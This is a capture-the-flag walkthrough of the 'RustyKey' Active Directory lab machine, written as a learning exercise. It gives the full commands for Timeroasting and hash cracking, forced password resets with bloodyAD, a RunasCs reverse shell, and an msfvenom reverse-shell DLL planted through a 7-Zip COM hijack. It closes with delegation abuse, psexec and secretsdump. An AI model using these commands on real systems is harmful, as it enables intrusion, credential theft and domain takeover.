RustyKey

RustyKey was a hard-difficulty Windows Active Directory box operating in an NTLM-disabled environment that required Kerberos-only authentication throughout. Initial enumeration with provided credentials for rr.parker revealed IT-COMPUTER3$ had WriteMember permissions over the helpdesk group, which could force password changes and add members to the protected objects group. I exploited a Timeroasting attack against IT-COMPUTER3$, abusing the NTP protocol to extract and crack its computer account hash, revealing the weak password "Rusty88!".
Using IT-COMPUTER3$'s credentials, I added the computer account to the helpdesk group, then removed the IT group from protected objects by abusing write permissions on the group's member attribute. This allowed me to force a password reset on bb.morgan and authenticate via WinRM as a member of the Remote Management Users group, obtaining the user flag.
An internal memo revealed the support group had been granted registry modification permissions for archiving utilities, with ee.reed as its sole member. I repeated the group manipulation technique to compromise ee.reed, then used RunasCs to bypass WinRM restrictions and obtain a shell. I exploited a COM hijacking vulnerability by modifying 7-Zip's InprocServer32 registry key (CLSID {23170F69-40C1-278A-1000-000100020000}) to point to a malicious DLL, which executed when mm.turner interactively launched 7-Zip through Windows Explorer.
As mm.turner, I configured Resource-Based Constrained Delegation by setting IT-COMPUTER3$ in the DC's PrincipalsAllowedToDelegateToAccount attribute, then used impacket-getST to impersonate backupadmin (avoiding the protected Administrator account), ultimately achieving SYSTEM access via psexec and dumping the domain secrets with secretsdump to obtain the Administrator's NTLM hash and complete domain compromise.
User flag

Initial nmap scan reveals 12 open ports, hinting at an Active Directory DC being present.
Enumeration
Since this is an assumed breach scenario, I'll use the provided credentials for rr.parker to do some enumeration of the domain.

NTLM authentication is disabled, which means that using Kerberos is necessary. I'll use Bloodhound to look for attack paths.
bloodhound-python -c all -d RUSTYKEY.HTB -u rr.parker -p '8#t5HE8L!W3A' -ns 10.10.11.75 -dc dc.rustykey.htb -k --zip

Rr.parker himself does not have any interesting permissions. I did notice that there was a high amount of computer objects on the domain, so I'll take a look at these.
There are 5 IT-COMPUTER objects, 5 SUPPORT-COMPUTER objects, and 5 FINANCE-COMPUTER objects. One of the IT-Computers stands out with an outbound permission over a group.

Members of the helpdesk group can force a password change for a few users and add members to the protected objects group.

The mentioned group contains the IT group within, which grants its members remote privileges via membership in the remote management users group.

The road to remote access is somewhat clear now. Take over the IT-COMPUTER3 account, own the IT group, and reset the password of one of the accounts.
Timeroasting
I began searching the web for a way to get a computer account's hash with a basic user account. I found an interesting attack documented as Timeroasting, which abuses the NTP protocol in order to extract hashes for computer accounts.
https://medium.com/@offsecdeer/targeted-timeroasting-stealing-user-hashes-with-ntp-b75c1f71b9ac
https://cybersecurity.bureauveritas.com/uploads/whitepapers/Secura-WP-Timeroasting-v3.pdf
https://github.com/SecuraBV/Timeroast
Normally, computer accounts have strong, randomized passwords. If this is the case, cracking them would not be possible. I don't have any other leads, though, so I'll try to timeroast the IT-COMPUTER3 account.
python Timeroast/timeroast.py 10.10.11.75

The target computer's RID is 1125. I'll take that one hash, and I will try cracking it with hashcat. I downloaded the beta version, as it has support for the MS-SNTP hashes from timeroasting.
./hashcat.bin ../hash /usr/share/wordlists/rockyou.txt --user

IT-COMPUTER3$ | Rusty88!
Adding the owned computer account to the helpdesk group
I'll add the computer to the helpdesk group using bloodyAD.
bloodyAD -d RUSTYKEY.HTB -u 'IT-COMPUTER3$' -p 'Rusty88!' -k --host dc.rustykey.htb --dc-ip 10.10.11.75 add groupMember helpdesk 'IT-COMPUTER3$'

Now the computer can add users to the protected objects group... But at the same time, it can also remove them. This is because what we actually have after abusing the AddSelf permission is a write permission over the member attribute of the group.

Knowing this, I can remove the IT group from the protected objects, essentially doing the reverse of what I just did with the helpdesk group.
bloodyAD -d RUSTYKEY.HTB -u 'IT-COMPUTER3$' -p 'Rusty88!' -k --host dc.rustykey.htb --dc-ip 10.10.11.75 remove groupMember 'protected objects' IT

Owning the IT group
This allows me to target members of the IT group, like bb.morgan. My computer account can force a password change on these users, so I'll do just that.
bloodyAD -d RUSTYKEY.HTB -u 'IT-COMPUTER3$' -p 'Rusty88!' -k --host dc.rustykey.htb --dc-ip 10.10.11.75 set password bb.morgan Password123

Remembering that the IT group can remote into the machine, I'll try to do so using bb.morgan's credentials.

Root flag
Internal Memo
From: bb.morgan@rustykey.htb
To: support-team@rustykey.htb
Subject: Support Group - Archiving Tool Access
Date: Mon, 10 Mar 2025 14:35:18 +0100
Hey team,
As part of the new Support utilities rollout, extended access has been temporarily granted to allow
testing and troubleshooting of file archiving features across shared workstations.
This is mainly to help streamline ticket resolution related to extraction/compression issues reported
by the Finance and IT teams. Some newer systems handle context menu actions differently, so
registry-level adjustments are expected during this phase.
A few notes:
- Please avoid making unrelated changes to system components while this access is active.
- This permission change is logged and will be rolled back once the archiving utility is confirmed
stable in all environments.
- Let DevOps know if you encounter access errors or missing shell actions.
Thanks,
BB Morgan
IT Department
This message was directed towards the support group, and it seems that group has been granted permission to edit the registry keys related to archiving software. Looking at the group, I can see only one member.
nxc ldap dc.rustykey.htb -u bb.morgan -p Password123 -k --query "(sAMAccountName=ee.reed)" memberOf | grep -i "CN="

The helpdesk group can force a password change on ee.reed as well. And similarly to the IT group, support is in the protected objects group and can also be removed to allow for the password change.
Taking over ee.reed
I can just repeat the steps used to take over bb.morgan to own ee.reed.
bloodyAD -d RUSTYKEY.HTB -u 'IT-COMPUTER3$' -p 'Rusty88!' -k --host dc.rustykey.htb --dc-ip 10.10.11.75 add groupMember helpdesk 'IT-COMPUTER3$'
bloodyAD -d RUSTYKEY.HTB -u 'IT-COMPUTER3$' -p 'Rusty88!' -k --host dc.rustykey.htb --dc-ip 10.10.11.75 remove groupMember 'protected objects' support
bloodyAD -d RUSTYKEY.HTB -u 'IT-COMPUTER3$' -p 'Rusty88!' -k --host dc.rustykey.htb --dc-ip 10.10.11.75 set password ee.reed Password123

This failed, and the error message suggests that ee.reed does not have the necessary permissions to connect remotely with WinRM.
Having their credentials will allow me to get a reverse shell using RunasCs, which bypasses the permission issue.
.\RunasCs.exe ee.reed Password123 powershell -r 10.10.16.187:9001

Modifying the archiver's registry keys
I looked into the C:\Program Files directory to see what kind of programs are installed, and which archivers were available.

7-Zip is there, and it is the only program that fits into the purpose of an archiver. I'll look at what registry keys it has. A quick search online will give me its CLSID.
{23170F69-40C1-278A-1000-000100020000}
reg query "HKLM\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}"

I can see a value under InprocServer32. This is used to tell Windows where the DLL file for this COM object is located. Overwriting this path with a malicious DLL would allow me to get code execution whenever 7-Zip is executed. This is the essence of a COM hijack attack. Modifying a program's registry keys in a way that makes a seemingly regular action perform the attacker's bidding.
I'll create a malicious DLL with msfvenom.
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.187 LPORT=9001 -f dll -o evil.dll
After uploading it to the box under C:/programdata, I'll modify the default key value of inprocServer32 to point towards my DLL.
reg add "HKLM\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" /ve /f /d C:\programdata\evil.dll
One important thing to note is that since this is a COM hijack attack, commandline execution of 7z.exe will not be affected by this. For this to work, someone on the other side has to open 7-Zip via Windows Explorer.
After a bit of waiting, I got a shell back on my listener. The attack has worked.

Resource-Based Constrained Delegation as mm.turner
From the earlier Bloodhound enumeration, I know that mm.turner can write into the PrincipalsAllowedToDelegateToAccount attribute of DC. The controlled account needs to have an SPN, which is standard for computer accounts.
Any computer object mentioned within that attribute on the DC will be able to get service tickets(ST) for the DC on behalf of other users. The only limitation is that this cannot be used against accounts in the protected groups.
The machine quota is set to 0, so I cannot create a new computer object. I'll use IT-COMPUTER3 since I have its credentials.
Set-ADComputer dc -PrincipalsAllowedToDelegateToAccount "IT-COMPUTER3$"

Now I can use the IT-COMPUTER to impersonate users on the DC. However, trying to use administrator still gets denied with a BADOPTION error.
export KRB5CCNAME='IT-COMPUTER3$.ccache' && impacket-getST -spn CIFS/dc.rustykey.htb -impersonate administrator -dc-ip 10.10.11.75 -k rustykey.htb/'IT-COMPUTER3$':'Rusty88!'

In the user list, I can see a second admin user at the bottom. I'll try to impersonate the backupadmin instead.

Success! This ticket now allows me to both get a system-level shell with psexec and to grab the NTDS.DIT secrets with secretsdump and get the administrator's hash.
Getting a SYSTEM shell
KRB5CCNAME=backupadmin@CIFS_dc.rustykey.htb@RUSTYKEY.HTB.ccache impacket-psexec -k -no-pass rustykey.htb/backupadmin@dc.rustykey.htb

Owning the administrator with secretsdump
I'll use the backupadmin to perform a secretsdump against the domain.
KRB5CCNAME=backupadmin@CIFS_dc.rustykey.htb@RUSTYKEY.HTB.ccache impacket-secretsdump -k -no-pass rustykey.htb/backupadmin@dc.rustykey.htb

administrator | f7a351e12f70cc177a1d5bd11b28ac26
I can't use this hash for PTH(pass the hash) because NTLM is disabled. I'll request a TGT instead.
impacket-getTGT -k -dc-ip 10.10.11.75 -hashes ":f7a351e12f70cc177a1d5bd11b28ac26" rustykey.htb/administrator

Rooted!